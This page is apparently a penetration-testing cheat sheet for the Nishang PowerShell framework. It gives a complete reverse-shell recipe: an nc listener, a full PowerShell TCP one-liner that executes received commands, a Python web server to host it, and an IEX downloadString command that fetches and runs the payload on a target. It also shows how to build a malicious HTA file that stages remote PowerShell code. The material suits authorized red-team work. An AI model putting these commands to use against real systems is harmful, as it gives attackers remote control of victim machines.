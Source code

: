 # [nishang](https://github.com/samratashok/nishang)

> Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

---

## Non-Interactive Command Execution --> Reverse Shell

Start a reverse shell listener.

```bash
sudo nc -nlvp 443 -s 10.6.31.77
```

Make a copy of `nishang/Shells/Invoke-PowerShellTcpOneLine.ps1`, choose and uncomment one of the two options, change its host and port to that of your reverse shell listener, and delete the other.

```powershell
# shell.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.6.31.77',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Serve the reverse shell.

```bash
python3 -m http.server 80
```

Execute the following command on the target to execute the reverse shell.

```cmd
powershell "IEX(New-Object System.Net.WebClient).downloadString('http://10.6.31.77/shell.ps1')"
```

Receive the reverse shell.

---

## Generate a Malicious HTA Document that Stages & Executes Remote PowerShell Code

Enter a PowerShell session on the attacking machine and source `nishang/Client/Out-HTA.ps1`.

```powershell
. nishang/Client/Out-HTA.ps1
```

Generate the malicious HTA document. Note that while this option stages PowerShell code from a remote URL, there are other options (`Get-Help Out-HTA`).

```powershell
Out-HTA -PayloadUrl $PAYLOAD_URL -HTAFilePath $OUTPUT_HTA_FILE_PATH
```
